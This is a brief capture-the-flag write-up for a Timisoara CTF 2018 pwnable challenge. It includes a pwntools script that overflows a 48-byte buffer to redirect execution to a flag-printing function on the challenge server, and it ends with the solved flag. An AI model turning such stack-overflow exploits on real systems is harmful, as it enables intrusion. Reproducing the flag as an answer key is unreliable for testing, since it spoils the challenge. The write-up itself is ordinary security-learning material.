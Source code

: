 ```yaml
---
layout:      post
title:       Timisoara CTF QUALS
date:        20 Avril 2018
comments:    true
categories:  Pwnable
auteur:      f00fc7c8
---
```

===== INFOS =====

Filename:
attendance

File format:
ELF32

Architecture:
x86

Author:
0xcpu

===== Info =======

I used the gdb to see the buffer`s address, and respectively to find his limit. 
After that, it was easy, i wrote this script to exploit the payload!
Also the variable flag_address is the address of the function ```<bring_students_to_school>```.

```
from pwn import *
r = remote('89.38.210.128', 31337)

msg = r.recv(30)
print(msg)

r.sendline('31337')
a = r.recvline()
print(a)

flag_address = 0x08048660
buf  = 'A'*48
buf += p32(flag_address)
r.sendline(buf)
```

===== End of Info ======

The flag is: ```timctf{l1ttl3_th1ngs_m4k3_b1g_th1ngs_h4pp3n}```
